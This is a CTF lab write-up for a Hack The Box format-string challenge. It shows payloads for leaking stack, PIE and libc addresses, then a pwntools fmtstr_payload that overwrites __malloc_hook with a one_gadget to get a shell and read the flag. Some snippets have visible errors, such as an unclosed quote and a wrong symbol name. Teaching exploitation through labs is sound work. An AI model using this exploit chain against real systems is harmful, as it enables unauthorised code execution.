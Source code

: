 # Format

## Solution

Initial binary check!

```
cmd: checksec --file=format

Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled

--------------------------------------------------
cmd: file format

format: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5d38e04d29b4aae722164869f3151cea776ce91c, for GNU/Linux 3.2.0, not stripped
```

By the name of the challenge this is a format string vuln (without decompiling and analysis)<br>

To experiment lets send
```
input: WWWW.%x.%x.%x.%x.%x.%x.%x.%x
Output: WWWW.14189a03.0.140b9f4e.6317f610.0.57575757.252e7825.2e78252e
```

So i can access and modify whatever address i source by using the stack position 6 

```
input: WWWW.%6$x
output: WWWW.57575757
```

After decompilation we have a function (<b> echo() </b>) with the following code (decompilation using ghidra):
```
long in_FS_OFFSET;
char local_118 [264];
undefined8 local_10;

local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
do {
    fgets(local_118,0x100,stdin);
    printf(local_118);
} while( true );

```

Having in consideration the binary security and the code from ghidra, the most common format string attacks will not work (change ret, change fgets PLT/GOT, etc..) <br>

After further research, i found out that malloc (and consequently, free) is used when the string sent to the printf is above a determined size <br>

With this, and with the format string vulnerability, the hooks for those functions can be overwritten and thus redirect the execution to a given address (in this case, system function or a one_gadget that spawns shell) <br> 

Before proceeding to the libc leak, more information is needed <br>

Since the program is compiled with PIE, we need to find in the stack the base address in which the program is loaded to then leak the libc printf through the GOT pointer ! <br>


To achieve this, use the binary and dump the content for a range
```
def nonStopLeak():
	data = []
	min_val = 1
	max_val = 40
	log.progress("Starting nonStopLeaking (range: %d to %d)..." % (min_val, max_val))
	data.append("EMPTY ON PURPOSE")
	for i in range(min_val,max_val):
		leak = "%{}$lx".format(i)
		leak = com(leak).strip().decode()
		data.append(leak)
	log.success("nonStopLeaking finalized...")
	return data
```

To better visualize what the value might be, use GDB to x/s values that are in the stack. The values are easy to analyze if each long word is considered a position (which it is, in fact)
```
x/100gx $rsp
```

I found 2 positions (34 and 37) but in the remote, the 34th position is empty contrary to the local memory ! <br> With GDB, we must calculate the offset from the address in memory to the loading address of the elf (visible through vmmap or info proc map)
```
gdb_offset = address_in_memory - elf_loaded_address  (0x126d)
elf.address = leaked_address - gdb_offset
```

After this, we need to inject the printf.got address (from the elf) in the stack! <br>

To disclose the value which the printf.got points to, the format string used must be %s because it is the same machanism as when working with buffers (it will print what the address sourced to it, points to) instead of showing the address in the position (as %lx, %x and %p does ) <br>


Special attention is needed (in this case) because the elf.got["printf"] contains 2 null terminators which are not an issue to the fgets (to store the content) but will make printf stop (they are also in the beginning so, printf would not print the address) <br>

To mitigate this, instead of the traditional format string approach (where payload is inserted into the stack and the format position is accessed) the used one is in the reverse order (payload after the format string). Also, the 2 null bytes count as an index (which the format string can access) <br>

Another important aspect is the stack alignment. That's the reason the payload consists of 10 A's instead of 8 (64-bit word). <br>

The payload consists of
```
printf_got = elf.got["printf]
payload = b"AAAAAAAAAA%8$s: " + p64(printf_got)

printf_leak = response
```

With that leak, we can access https://libc.blukat.me/ and find out which libc version is the server running. Leaked libc possibilities:
```
libc6-amd64_2.27-3ubuntu1_i386 (32 bits, ignore)
libc6-i386_2.19-0ubuntu6_amd64 (32 bits, ignore)
libc6-i386_2.9-4ubuntu6.3_amd64 (32 bits, ignore)
libc6_2.27-3ubuntu1_amd64
```

Now that we have a libc and one address of it, we can calculate its base address and consequently extract the values for the hook that we want to overwrite!
```
libc = ELF("libc6_2.27-3ubuntu1_amd64")
libc.address = printf_leak - libc.symbols["printf"]
__malloc_hook_addr = libc.symbols["__malloc_hook_addr"]
```

After that we need the offsets for the gadgets (https://github.com/david942j/one_gadget)
```
cmd: one_gadget libc6_2.27-3ubuntu1_amd64

0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

With the gadgets' offsets, we need to calculate the actual value they have in the server memory 
```
gadget_addr = libc.address + gadget_value
```

Now need to generate the payload to overwrite the __malloc_hook_addr ! <br>
To generate the payload i used the pwntools functionality <b> FmtStr() </b>
```
fmtstr_payload(exploiter.offset, {__malloc_hook_addr : gadget_addr})
```

After modifying the hook, just need to trigger it

```
payload = '%100000c'
```

And voila, we got a shell !!!
```
cmd: whoami && id
ctf
uid=999(ctf) gid=999(ctf) groups=999(ctf)

cmd: cat flag.txt
HTB{mall0c_h00k_f0r_th3_w1n!}
```
